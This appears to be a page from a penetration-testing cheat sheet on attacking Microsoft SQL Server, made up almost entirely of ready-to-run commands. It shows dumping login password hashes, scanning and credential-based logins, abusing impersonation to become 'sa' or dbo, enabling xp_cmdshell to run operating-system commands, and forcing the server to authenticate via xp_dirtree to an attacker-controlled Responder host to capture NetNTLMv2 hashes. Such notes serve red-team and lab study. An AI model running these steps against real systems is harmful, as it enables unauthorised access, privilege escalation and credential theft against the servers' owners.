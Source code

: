 ```sql
SELECT name, password_hash FROM sys.sql_logins
```

## Impersonate

### Execute as login

{% code overflow="wrap" fullWidth="true" %}
```bash
nmap -p 1433 -sV -sC $IP_RANGE
nxc mssql $IP_RANGE
nxc $IP -u $USER -p $PASS -d dc.domain.local
# In case we have creds, we connect to the MSSQL server
python3 mssqlclient.py -windows-auth dc.domain.local/user:pass@fully.qualified.domain.local
# Once connected, start the enumeration
enum_db 
use $DATABASE
select name from sys.tables;
enum_logins
enum_impersonate
# If we can impersonate sb, we will know who by the grantor column and with these steps
exec_as_login sa # in case sa is the grantor
# We impersonate it
EXECUTE AS LOGIN = 'new-user'               
# We confirm we changed our user
SQL (hrappdb-reader  guest@master)> select suser_sname()

enable_xp_cmdshell
xp_cmdshell whoami # we should be able to execute commands after this
# After this, we could try to escalate more if we find more logins or impersonate options
```
{% endcode %}

### execute as user

{% code overflow="wrap" fullWidth="false" %}
```bash
enum_impersonate
# If we see dbo we can impersonate depending on the property is_trustworthy_on of the table
use $table
exec_as_user dbo
enable_xp_cmdshell
xp_cmdshell whoami
```
{% endcode %}

## Coerce and relay

{% code overflow="wrap" fullWidth="true" %}
```bash
responder -I tun0
# Authenticate with any user, does not matter the privileges
python3 mssqlclient.py -windows-auth dc.domain.local/user:pass@fully.qualified.domain.local
# Execute dirtree
exec master.sys.xp_dirtree '\\192.168.56.1\demontlm',1,1
# We should see NetNTLMv2 hash on Responder
```
{% endcode %}
